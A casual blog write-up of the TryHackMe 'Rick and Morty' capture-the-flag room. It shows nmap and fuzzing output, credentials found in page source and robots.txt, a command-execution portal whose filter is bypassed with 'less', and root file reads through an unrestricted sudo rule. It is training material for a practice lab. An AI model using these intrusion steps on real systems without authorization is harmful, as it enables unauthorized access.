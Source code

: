 ```yaml
---
title: "Rick and Morty"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="rm.jpeg" alt="rm" style="width: 200px;" >}}

My very first ctf in the theme of one of my favorites cartoon

I was not bright enough to take notes doing it so I have to re-do it

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1b:a2:55:2a:98:72:8b:b1:04:a2:92:04:71:e1:63:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD1h54qxFjtSFt0u71oKQVr2fj0sna5xoDSQTcxNlW7467woiH/Ufj4/ccHN32iwsx6FIMJJPRrdy2LUd38DybkLKSnqn1B6UR0LQ8n3QwnKK54ad7PwdwqXsostLASIXSFdjXo25SttYwh4BUzaNjmjihF5o63Qj533Jx0y8Zbbw0vaqFNzBPBYt3+JqkIF5IiBGfiR4zodHOpvi2g9g6AXAl32OhDvd5kqTRVIRDenk69SeR7awKZo+v0WMdJvrUJIriXhlJ72QmAzJo+D/dZba2lsuM8RR7RJnpfA4swwP+t8x3XztlV4EcOmgdf2bA/bIstkTUF+OcKTvaKFo3j
|   256 33:a4:33:d9:d8:14:45:e5:52:be:f6:f7:ed:93:f4:f7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCtRsw3waYPfZ8fzVb3nZb5CDEnzgzwDBIWyMoye7TIE1KWDrD3V3kkqCSyKNKA+I0OGxd3Tcg7Ce3sEuj0gpXk=
|   256 2f:9f:a8:14:a6:aa:72:5d:6c:47:5e:8d:30:63:8f:3d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPtbWlf0LCQkWzV1oNlITISE9ack8cFh0hoaSH0SNGlC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
.htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 291, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]
```

lol `robots.txt` is literally put under or nose

On the website you can see rick turned into a pickle again
haha...funniest thing I ever saw
checking the source code (always)

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

```

`robots.txt` just contains `Wubbalubbadubdub`

might be the password! we try to ssh with those...permission denied!
More website enumeration then...I fuzz for more dir or files

```bash
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
                        [Status: 403, Size: 291, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
denied                  [Status: 302, Size: 0, Words: 1, Lines: 1]
login                   [Status: 200, Size: 882, Words: 89, Lines: 26]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```
`login.php` and `portal.php` look interesting!

We login and reach portal...there we have command execution
I immediately try `ls`

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

The first ingredient is there...so lets read it
Denied! haha..poor meeseeks
there is a filter for some commands `cat` doesnt work but you can use `less`

```text
less Sup3rS3cretPickl3Ingred.txt
...
```

`clue.txt` says `Look around the file system for the other ingredient.`

use commands to look around...always check home
hehe this part was a bit tricky but I already completed the linux strength room

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

It was not two folders or files its just one file named "second ingredients"

```bash
less "/home/rick/second ingredients"
...
```
so now there is only one ingredient left...looking around doesnt help

hmm...wait a second...

## privilege escalation ?

```bash
sudo -l

Matching Defaults entries for www-data on ip-10-10-153-33.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-153-33.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

LMAO! we are literally root! yeah now we know where it is

```bash
sudo less /root/3rd.txt
...
```
Done! Wubbalubbadubdub!!
